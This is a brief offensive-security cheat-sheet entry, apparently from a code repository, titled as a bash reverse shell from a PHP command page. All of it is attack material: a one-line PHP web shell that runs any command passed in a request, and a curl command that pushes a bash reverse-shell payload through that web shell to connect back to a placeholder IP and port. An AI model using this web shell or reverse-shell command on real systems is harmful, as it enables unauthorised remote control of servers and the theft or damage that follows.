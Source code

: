 ### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```
